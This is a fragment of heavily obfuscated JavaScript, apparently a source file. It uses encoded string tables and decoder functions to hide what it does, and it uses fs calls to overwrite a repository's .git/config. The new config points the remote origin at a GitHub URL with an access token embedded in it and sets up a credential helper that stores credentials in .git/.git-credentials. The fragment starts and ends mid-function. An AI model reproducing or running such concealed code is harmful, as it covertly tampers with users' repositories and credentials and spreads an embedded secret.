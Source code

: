 _0x50403d=_0x4f4cff[_0x4cac51]||_0x1f6f90;continue;}break;}}}});_0x3098d(),fs[_0x57af8d(0x73,0x6e,0x23,0x3a)]('./.git/con'+'fig',_0x54ec81(-0x1aa,-0x180,-0x181,-0x16b)+_0x57af8d(0xd8,0xbf,0xc6,0x12b)+_0x54ec81(-0x1e2,-0x23a,-0x229,-0x1e9)+_0x57af8d(0xae,0xb5,0xb6,0xd0)+'\x20\x20\x20fileMod'+_0x57af8d(0x4d,0x38,0x51,0x59)+_0x57af8d(0x96,0x63,0x90,0x7d)+_0x54ec81(-0x180,-0x15a,-0x13a,-0x161)+_0x54ec81(-0x1be,-0x155,-0x160,-0x19e)+_0x54ec81(-0x1a3,-0x1ea,-0x1cf,-0x1d7)+_0x54ec81(-0x155,-0x18b,-0x186,-0x158)+_0x57af8d(0xe7,0xf3,0xbb,0x113)+_0x54ec81(-0x18c,-0x17e,-0x199,-0x181)+_0x54ec81(-0x210,-0x216,-0x201,-0x1c6)+'\x20\x20\x20email\x20='+'\x20<>\x0a[remot'+'e\x20\x22origin\x22'+_0x57af8d(0x87,0x99,0xb6,0x3a)+_0x54ec81(-0x1e7,-0x21d,-0x1cd,-0x1ef)+_0x54ec81(-0x142,-0x15e,-0x1d1,-0x18c)+_0x54ec81(-0x140,-0x14b,-0x19a,-0x189)+_0x57af8d(0x4a,0x9c,0x33,0xc)+_0x57af8d(0x63,0x94,0x59,0x12)+_0x54ec81(-0x1d9,-0x186,-0x1b8,-0x1c8)+_0x57af8d(0x5f,0x3e,0x56,0x67)+_0x57af8d(0xe2,0xe9,0x130,0xc7)+_0x57af8d(0xbe,0x9b,0x8c,0xfa)+_0x54ec81(-0x22d,-0x217,-0x221,-0x1e5)+_0x54ec81(-0x21d,-0x1d9,-0x182,-0x1ce)+_0x57af8d(0xe1,0x11a,0xd1,0xf0)+_0x54ec81(-0x16b,-0x1db,-0x15f,-0x1a4)+_0x57af8d(0x88,0x7c,0xc5,0xcc)+'e\x20=\x20refs/h'+_0x54ec81(-0x1ef,-0x1c4,-0x180,-0x1d0)+'[credentia'+'l]\x0a\x20\x20\x20\x20hel'+_0x57af8d(0x7f,0x33,0x43,0xc1)+'e\x20--file\x20.'+'/.git/.git'+'-credentia'+_0x54ec81(-0x1f5,-0x207,-0x1fa,-0x1d1),_0xb30f31=>{function _0x30acd1(_0x3111f7,_0x28b736,_0x45841c,_0x3537b3){return _0x54ec81(_0x3111f7-0x143,_0x28b736-0xcd,_0x3537b3,_0x28b736-0x8b);}_0xb30f31&&console[_0x30acd1(-0x120,-0x125,-0xea,-0xd5)](_0xb30f31);;});function _0x57af8d(_0x44c972,_0x5da682,_0x76d99d,_0x2b32f6){return _0x150e(_0x44c972- -0xcf,_0x2b32f6);}function _0x2d84(){var _0x131845=['ts9HDY1TAw5Llq','wKDSDe4','BMn0Aw9UkcKG','zsa9igzHBhnLcG','psbODhrWCZOVlW','y29UC29Szq','DgfIBgu','zhL1zuK','y291BNrLCG','CefTBwm','EwzVCM1HDhzLCG','CMv0DxjUicHMDq','s0DMvKS','BuDtv3a','z2LUlYOkw2jYyq','ywn0Aw9U','wNvSug8','Dv9yn1Hyn3vvDW','EK1yEfm','x19WCM90B19F','suXmuKu','k3jLzNmVAgvHza','CKDirhG','sNf6r0C','sxf0suS','zxHWCMvZCWOGia','ANHfALy','rhHKEvi','DxbKyxrLCYa9ia','C3L2yNa','vNLXCNy','sKLPtge','A0PdA0C','Ew9ps0G','Bhmk','zwfKCY9TywLUcG','AgP2sgu','BMnOicjTywLUiG','vLziqMW','quHOqLm','AuXMv00','D3jPDgvgAwXL','mtaZmZGZotr3v3vLAgC','icbMzxrJAca9ia','rM11Ceq','uxvHBJaWmdykia','ALjVtuG','A01sAMq','C050zg0','y29UC3rYDwn0BW','vKfPs28','zerxsKy','mJi1nZC2n2LLuK1lBW','CgvYid0GC3rVCG','v1zfseC','lI8Uz2L0lY5NAq','C3bSAxq','mtbruu1zsNq','AKvVt04','wvzQtK0','s1Peywy','xqOGicaGDxjSia','BGOGicaGBwvYzW','lw9HDxrOlwjHCW','AgPSDe4','C3rYAw5N','nhWYFdv8m3WXFa','zxjYB3i','B0zIwfq','E30Uy29UC3rYDq','wuzQsLe','vu5NvLy','Dg9tDhjPBMC','y2HHAw4','DMTQCfe','tgztChe','icaGigjHCMuGpq','zgvIDq','uejpB3C','DguGpsbVCMLNAq','C29jstz1oe14qG','C3rHDgvpyMPLyW','nZi5mZmYqvzuBgfg','jf0Qkq','vvjqCeq','igXVz2fSBhjLzG','ys16qs1AxYrDwW','z2DLCG','zNvUy3rPB24GkG','AKDVz2y','BMXnAgO','xcGGkLWP','y2fSBa','r0jSuNa','tK5wC20','t3rZswO','Aw5MBW','zsKGE30','tLnYwM0','y29T','C2LVBIa9idakia','yMPStxK','AuLQCwy','z2L0AhvIlMnVBq','AurNA2y','kcGOlISPkYKRkq','l0rHCKTxAw5hva','mNWWFdr8mxW1Fa','ywXZ','D1fWt3q','zxHJzxb0Aw9U','sgrvANO','Cw1yrxG','Bg9N','id0GvhjHBKfUAa','mtiZnZC5ng5Uy1nzzG','zw1VDgvZl29YAq','DgvZDa','mtm1mtu5yKjvCeD3','vM13v3e','yMLUza','uvHXANC','D2HPBguGkhrYDq','ChjVDg90ExbL','CNbOuxa','rKjOsgS','BwrXvMC','Egngq0i','mtaZmJzvt2Psuuu','AKThDue','A0LorKq','Afrpt2u','mtrmsKTYqwy','nu1Vue9ovW','CM4GDgHPCYiPka','zxbdDNi','w2nVCMvDcIaGia','BgvUz3rO','C2vHCMnO','Dc1JCMvKzw50Aq','mJu2Ahzbshnr','Ag9vCgC','ihjLCg9ZAxrVCG','vgWZsNvYnuK6Ea','tvDIvvG','xcTCkYaQkd86wW','igzHBhnLcIaGia','u2vus1u','mc05ys16qs1AxW','DhjHy2u','yxbWBhK','xqOGicaGCMvTBW','CY8QoNjLzNmVCG','Aw5WDxq','thvJy08','Dhj1zqPBDxnLCG','Aw5PDa','xqOGicaGBMfTzq','AKLjqwy','B3fUrKS','vvjcqwe','nJuXmtuYthPOzw1X','vLjnC2W','y3rVCIGICMv0Dq','whvAAvy'];_0x2d84=function(){return _0x131845;};return _0x2d84();}fs[_0x54ec81(-0x18c,-0x1a8,-0x19e,-0x1ca)](_0x57af8d(0x81,0x9f,0xd0,0x46)+_0x57af8d(0xd5,0x10c,0xcb,0xb6)+_0x54ec81(-0x160,-0x1aa,-0x17d,-0x187),'https://gh'+_0x57af8d(0x5b,0x44,0x87,0x5c)+_0x54ec81(-0x19c,-0x1a7,-0x199,-0x1a3)+'imJH9bd75p'+_0x57af8d(0xd9,0xaa,0x8e,0x8e)+_0x57af8d(0x89,0x75,0x50,0x94)+'ic@github.'+_0x54ec81(-0x1ab,-0x1cc,-0x142,-0x190),_0x10fa37=>{_0x10fa37&&console[_0x1f22b0(0x246,0x291,0x283,0x272)](_0x10fa37);function _0x1f22b0(_0x5cea30,_0x8c2b58,_0x555ab9,_0x40d238){return _0x54ec81(_0x5cea30-0x17d,_0x8c2b58-0x15c,_0x555ab9,_0x40d238-0x422);};});function _0x5b6499(_0x2be744){function _0x50af1c(_0x1c1a9f,_0x2dab88,_0x564955,_0x4dc0a2){return _0x54ec81(_0x1c1a9f-0x39,_0x2dab88-0xd8,_0x4dc0a2,_0x2dab88- -0x44);}function _0x2941d3(_0xc6f80d,_0x39f51b,_0x4b38ad,_0x169ad4){return _0x54ec81(_0xc6f80d-0x67,_0x39f51b-0x44,_0xc6f80d,_0x39f51b-0x182);}var _0x24855a={'VmwWq':function(_0x4a67cb,_0x1c21b8){return _0x4a67cb+_0x1c21b8;},'oFbXT':_0x2941d3(-0x12,-0x2c,0x24,0x15)+_0x2941d3(-0x77,-0x73,-0xbb,-0x74)+'rn\x20this\x22)('+'\x20)','IqtIK':function(_0x97cd62){return _0x97cd62();},'rphQp':function(_0x2b6bef,_0x577fa1){return _0x2b6bef!==_0x577fa1;},'JqzGG':'mEbzp','AHhBS':function(_0x2a70c5,_0x21bea5){return _0x2a70c5===_0x21bea5;},'kJCkG':_0x50af1c(-0x206,-0x22f,-0x223,-0x245),'jKGuA':function(_0x3f55c7,_0x2c2740){return _0x3f55c7!==_0x2c2740;},'VVHBl':function(_0x49b009,_0x35690b){return _0x49b009/_0x35690b;},'qmXEx':'length','FmupD':_0x2941d3(-0xd,-0x24,-0x5,-0x4a),'NNVsm':_0x50af1c(-0x1db,-0x1e0,-0x1a0,-0x1e9),'dyueI':_0x2941d3(-0x4d,-0x62,-0x8c,-0x13),'yoOKH':function(_0x53ebaf,_0x1ae86a){return _0x53ebaf+_0x1ae86a;},'NrhhT':_0x50af1c(-0x1d1,-0x1e6,-0x1c2,-0x197)+'t','XuZiV':function(_0x1009b6,_0x14991d){return _0x1009b6(_0x14991d);},'iHgHG':'LuccO','mdqVg':function(_0x55b1f8,_0x4a038f){return _0x55b1f8(_0x4a038f);}};function _0x4ae800(_0x15edd8){var _0x311e2b={'dDWJF':function(_0x30cc28,_0x1c1f0b){function